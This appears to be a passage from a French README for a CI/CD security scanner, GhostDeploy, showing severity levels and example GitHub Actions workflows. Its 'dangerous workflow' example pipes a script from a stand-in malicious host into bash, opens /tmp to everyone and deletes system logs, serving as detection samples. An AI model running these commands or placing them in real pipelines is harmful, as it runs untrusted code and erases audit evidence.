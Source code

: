 ### 📈 **Export Excel Avancé**
- Formatage conditionnel automatique
- Feuilles séparées par catégorie
- Formules de calcul des scores

## 🛡️ Niveaux de Sécurité

| Niveau | Icône | Score Impact | Action Requise |
|--------|-------|--------------|----------------|
| **CRITIQUE** | 🔴 | -25 points | Correction immédiate |
| **ÉLEVÉ** | 🟠 | -15 points | Correction prioritaire |
| **MOYEN** | 🟡 | -8 points | Correction recommandée |
| **FAIBLE** | 🟢 | -3 points | Amélioration optionnelle |

## 📚 Exemples de Workflows

### Workflow Sécurisé ✅
```yaml
name: Secure CI/CD
on: [push, pull_request]
jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: '18'
      - name: Install dependencies
        run: npm ci
      - name: Run security tests
        run: npm audit
```

### Workflow Dangereux ⚠️ (Détecté par GhostDeploy)
```yaml
name: Dangerous Workflow
on: [push]
jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - name: Download and execute script
        run: |
          curl http://malicious-site.com/script.sh | bash    # 🔴 CRITIQUE
          chmod 777 /tmp                                     # 🟠 ÉLEVÉ
          rm -rf /var/log/*                                  # 🟠 ÉLEVÉ
      - uses: untrusted-action@main                          # 🟡 MOYEN
```
